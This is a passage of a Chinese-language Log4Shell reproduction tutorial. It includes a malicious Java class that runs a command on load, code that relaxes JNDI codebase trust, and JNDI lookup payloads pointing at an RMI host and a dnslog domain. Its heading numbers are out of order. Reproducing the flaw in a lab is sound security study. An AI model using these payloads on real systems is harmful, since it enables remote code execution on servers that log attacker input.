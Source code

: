 ```java
        registry.bind("exp", referenceWrapper);
    }
}

```



这里java8和以上是有区别的，可以看这篇文章：

https://segmentfault.com/a/1190000041102850

https://segmentfault.com/q/1010000041102656



#### 4.2 恶意对象模拟执行 cmd 打开计算器，并且输出一个语句用于标记执行处:

Log4jRCE.java

```java
package cn.xps.www;

public class Log4jRCE {
    static {
        try {
            System.out.println("exec in here");
            String [] cmd={"Wireshark"};  //命令自己修改
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```



#### 4.5 执行 RMIServer，创建 RMI 服务。



### 4.构建 EXP 触发目标服务器进行日志记录触发 JNDI 解析

Log4Test.java

```java
package cn.xps.www;

import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

public class Log4Test {
    private static final Logger logger = LogManager.getLogger(Log4Test.class);

    public static void main(String[] args) {
        // 避免因为Java版本过高而无法触发此漏洞
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");

        String username = "${jndi:rmi://192.168.43.161:8888/exp}";  // ip需要使用本机局域网ip或网络ip，不能使用127.0.0.1
//        String username = "${jndi:ldap://4fduwz.dnslog.cn}";  // ip需要使用本机局域网ip或网络ip，不能使用127.0.0.1
        logger.error(username + "is login on ${java:os}");
    }

}

```
